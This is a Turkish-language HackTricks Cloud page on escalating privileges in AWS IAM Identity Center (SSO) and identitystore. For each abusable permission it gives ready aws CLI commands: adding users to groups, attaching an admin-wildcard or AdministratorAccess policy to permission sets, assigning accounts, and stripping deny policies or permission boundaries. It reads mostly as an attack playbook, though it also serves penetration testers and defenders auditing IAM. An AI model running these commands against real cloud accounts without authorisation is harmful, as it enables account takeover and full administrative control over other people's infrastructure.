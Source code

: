 # AWS - SSO & identitystore Privesc

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **Bize katılın** 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) veya **bizi** **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## AWS Identity Center / AWS SSO

AWS Identity Center / AWS SSO hakkında daha fazla bilgi için kontrol edin:

{% content-ref url="../aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../aws-services/aws-iam-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
**Varsayılan** olarak, yalnızca **Yönetim Hesabı**'ndan izinleri olan **kullanıcılar**, **IAM Identity Center**'a erişim sağlayabilir ve **kontrol edebilir**.\
Diğer hesaplardan kullanıcılar, yalnızca hesap **Delegated Adminstrator** ise bunu yapabilir.\
[Daha fazla bilgi için belgeleri kontrol edin.](https://docs.aws.amazon.com/singlesignon/latest/userguide/delegated-admin.html)
{% endhint %}

### ~~Şifreyi Sıfırla~~

Bu tür durumlarda ayrıcalıkları artırmanın kolay bir yolu, kullanıcıların şifrelerini sıfırlamalarına izin veren bir izne sahip olmaktır. Ne yazık ki, kullanıcının şifresini sıfırlamak için yalnızca kullanıcıya bir e-posta göndermek mümkündür, bu nedenle kullanıcının e-posta erişimine ihtiyacınız olacaktır.

### `identitystore:CreateGroupMembership`

Bu izinle, bir kullanıcıyı bir gruba eklemek mümkündür, böylece grup tarafından sahip olunan tüm izinleri miras alır. 

{% code overflow="wrap" %}
```bash
aws identitystore create-group-membership --identity-store-id <tore-id> --group-id <group-id> --member-id UserId=<user-id>
```
{% endcode %}

### `sso:PutInlinePolicyToPermissionSet`, `sso:ProvisionPermissionSet`

Bu izne sahip bir saldırgan, kontrolü altındaki bir kullanıcıya verilen bir İzin Setine ek izinler verebilir.

{% code overflow="wrap" %}
```bash
# Set an inline policy with admin privileges
aws sso-admin put-inline-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --inline-policy file:///tmp/policy.yaml

# Content of /tmp/policy.yaml
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Statement1",
"Effect": "Allow",
"Action": ["*"],
"Resource": ["*"]
}
]
}

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:AttachManagedPolicyToPermissionSet`, `sso:ProvisionPermissionSet`

Bu izne sahip bir saldırgan, kontrolü altındaki bir kullanıcıya verilen bir İzin Setine ek izinler verebilir.

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-managed-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --managed-policy-arn "arn:aws:iam::aws:policy/AdministratorAccess"

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:AttachCustomerManagedPolicyReferenceToPermissionSet`, `sso:ProvisionPermissionSet`

Bu izne sahip bir saldırgan, kontrolü altındaki bir kullanıcıya verilen bir İzin Setine ek izinler verebilir.

{% hint style="warning" %}
Bu izinleri kötüye kullanmak için, etkilenecek **tüm hesaplar içinde bulunan bir müşteri yönetimli politikanın adını** bilmeniz gerekir.
{% endhint %}

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-customer-managed-policy-reference-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --customer-managed-policy-reference <customer-managed-policy-name>

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:CreateAccountAssignment`

Bu izne sahip bir saldırgan, kontrolü altındaki bir kullanıcıya bir hesap için bir İzin Seti verebilir.

{% code overflow="wrap" %}
```bash
aws sso-admin create-account-assignment --instance-arn <instance-arn> --target-id <account_num> --target-type AWS_ACCOUNT --permission-set-arn <permission_set_arn> --principal-type USER --principal-id <principal_id>
```
{% endcode %}

### `sso:GetRoleCredentials`

Kullanıcıya atanmış belirli bir rol adı için STS kısa vadeli kimlik bilgilerini döndürür.

{% code overflow="wrap" %}
```
aws sso get-role-credentials --role-name <value> --account-id <value> --access-token <value>
```
{% endcode %}

Ancak, nasıl alacağım konusunda emin olmadığım bir erişim belirtecine ihtiyacınız var (TODO).

### `sso:DetachManagedPolicyFromPermissionSet`

Bu izne sahip bir saldırgan, belirtilen izin setinden bir AWS yönetilen politikasının ilişkilendirmesini kaldırabilir. **Yönetilen bir politikayı ayırarak (reddetme politikası)** daha fazla ayrıcalık vermek mümkündür.

{% code overflow="wrap" %}
```bash
aws sso-admin detach-managed-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN> --managed-policy-arn <ManagedPolicyARN>
```
{% endcode %}

### `sso:DetachCustomerManagedPolicyReferenceFromPermissionSet`

Bu izne sahip bir saldırgan, belirtilen izin setinden bir Müşteri yönetimli politikanın ilişkilendirmesini kaldırabilir. **Yönetilen bir politikayı ayırarak (reddetme politikası)** daha fazla ayrıcalık vermek mümkündür.

{% code overflow="wrap" %}
```bash
aws sso-admin detach-customer-managed-policy-reference-from-permission-set --instance-arn <value> --permission-set-arn <value> --customer-managed-policy-reference <value>
```
{% endcode %}

### `sso:DeleteInlinePolicyFromPermissionSet`

Bu izne sahip bir saldırgan, izin setinden bir satır içi politikadan izinleri kaldırma işlemi gerçekleştirebilir. **Bir satır içi politikayı (reddetme politikası) ayırarak daha fazla ayrıcalık vermek mümkündür.**

{% code overflow="wrap" %}
```bash
aws sso-admin delete-inline-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN>
```
{% endcode %}

### `sso:DeletePermissionBoundaryFromPermissionSet`

Bu izne sahip bir saldırgan, izin setinden İzin Sınırını kaldırabilir. İzin Sınırından verilen İzin Setindeki kısıtlamaları kaldırarak **daha fazla ayrıcalık vermek mümkündür**.

{% code overflow="wrap" %}
```bash
aws sso-admin   delete-permissions-boundary-from-permission-set --instance-arn <value> --permission-set-arn <value>
```
{% endcode %}

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
